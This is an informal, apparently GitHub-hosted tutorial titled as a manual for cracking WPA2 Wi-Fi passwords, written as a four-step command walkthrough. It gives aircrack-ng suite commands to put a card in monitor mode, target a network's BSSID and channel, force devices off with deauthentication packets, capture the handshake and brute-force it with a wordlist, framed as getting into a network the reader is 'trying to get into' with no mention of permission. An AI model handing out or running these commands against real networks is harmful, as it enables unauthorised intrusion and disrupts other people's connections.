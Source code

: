 Hello World!
This is how to crack wifi manual (WPA2)

//Step 1

First u need to put the Wifi card into Monitor mode

by using these commands

ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up

while (wlan0) is the Interface
to see in which state the card is and whats how its named u can type iwconfig

To scan the area with your wifi card type

airodump-ng

//Step 2

Find information about the wifi u trying to get into

when u type airodump-ng u can see all the networks that are in you area
then u should see the BSSID and the Channel that u target is in
write these 2 things down

To crack a wifi u need to capture a "Handshake"
to capture a handshake of the wifi u need to type in this command
insert the 2 things u wrote down earlier in here

airodump-ng -c {channel} --bssid {BSSID} -w {name of output file} {wifi card}

//Step 3 Optional

To speed up the capturing of the handshake a device needs to connect to the wifi
so to kick all devices from the network type but let the windows can where u are
currently in just open another terminal window
5-10 deauth pakets should kick the device off

aireplay-ng -0 {how many deauth pakets} -a {BSSID} {wifi card}

u can also send the deauth pakage to a specific device in the network type

aireplay-ng -0 {how many deauth pakets} -a {BSSID} -c {device id marked as STATION} {wifi card}

//Step 4

If you captured the handshake successfully type

aircrack-ng -w {name and path of the word list} -b {BSSID} {file name of the outputfile from earlier}*.cap

to crack the password
but need a .txt file that contains words to hack the password
